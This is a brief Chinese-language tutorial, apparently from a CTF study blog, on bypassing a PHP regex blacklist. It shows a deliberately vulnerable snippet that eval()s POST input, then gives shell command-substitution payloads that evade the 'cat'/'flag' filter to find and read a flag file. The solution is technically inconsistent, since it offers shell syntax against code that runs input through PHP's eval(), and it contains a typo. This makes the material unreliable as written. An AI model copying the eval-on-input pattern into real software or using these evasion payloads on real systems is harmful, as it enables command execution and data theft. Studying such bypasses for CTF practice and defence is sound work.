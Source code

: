 ```yaml
---
title: 'PHP 正则表达式绕过'
date: '2025-04-23T19:58:08+08:00'
weight: 
draft: false
description: 'PHP 正则表达式绕过'
---
```


### 示例一

```php
$cmd = $_POST['cmd'];
if (preg_match("/cat|flag/i", $cmd)) {
    die("u can not do this ");
}
echo eval($cmd);
```

**代码审计：**
- 从 HTTP 请求的 POST 方法获取数据，并将名为 `cmd` 的字段的值赋给变量 `$cmd`
- 使用正则表达式匹配 `$cmd` 中的 `cat` 和 `flag`，修饰符 `i`（case-insensitive）表示不区分大小写
- 如果匹配成功就终止脚本执行，并输出消息 `"u can not do this "`
- 如果匹配失败就使用 `eval($cmd)` 执行 PHP 代码，并输出执行结果

**需求：**
1. 查找 `flag` 文件位置：`find / -iname flag`
2. 查看 `falg` 文件内容：`cat /flag`

**解决方法：** `$(command)` 命令替换

`$(...)` 是 Shell 中命令替换的语法，它允许在一个命令中执行另一个命令，并将该命令的输出作为结果返回嵌入到其他命令中

```shell
find / -iname fla$(echo g)
ca$(echo t) /fla$(echo g)
```